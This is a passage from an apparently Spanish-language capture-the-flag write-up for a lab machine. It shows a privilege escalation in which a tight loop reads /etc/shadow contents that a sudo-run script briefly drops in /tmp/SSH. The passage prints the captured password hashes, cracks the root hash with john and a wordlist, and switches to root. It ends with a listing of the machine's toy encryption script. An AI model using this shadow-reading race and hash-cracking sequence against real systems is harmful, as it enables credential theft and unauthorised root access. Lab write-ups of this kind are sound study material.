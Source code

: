 Durante muy poco tiempo bajo /tmp/SSH (si existe) se crea una carpeta random donde estan las contraseñas del /etc/shadow temporalmente. Luego se borra este archivo.
Si intentamos leerlo de manera normal no podremos por el poco tiempo que está, asi que esto se soluciona con un bucle while true a velocidad informática.

```console
# ----- Terminal 1 -----
robert@obscure:/tmp/$ mkdir SSH; cd SSH # si no creamos esta carpeta da error el script
robert@obscure:/tmp/SSH$ while true; do cat * 2>/dev/null; done

# ----- Terminal 2 -----
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!

# ----- Terminal 1 -----
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

```console
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
mercedes         (?)
robert@obscure:~/BetterSSH$ su root
Password: mercedes
root@obscure:/home/robert/BetterSSH# 
```
------------------------
# Extra: El script de encriptado

```python
└─$ /bin/cat SuperSecureCrypt.py 
import sys, argparse

# Estas dos funciones son casi iguales
def encrypt(text, key):								| def decrypt(text, key):
    keylen = len(key)								| 	keylen = len(key) 
    keyPos = 0										| 	keyPos = 0
    encrypted = ""									| 	decrypted = ""
    for x in text:									| 	for x in text:
        keyChr = key[keyPos]						|  	  keyChr = key[keyPos]
        newChr = ord(x)								|	  newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)  | 	  newChr = chr((newChr - ord(keyChr)) % 255)
        encrypted += newChr							|	  decrypted += newChr
        keyPos += 1									|	  keyPos += 1
        keyPos = keyPos % keylen					|	  keyPos = keyPos % keylen
    return encrypted								| 	return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')
parser.add_argument('-i', metavar='InFile', type=str, help='The file to read', required=False)
```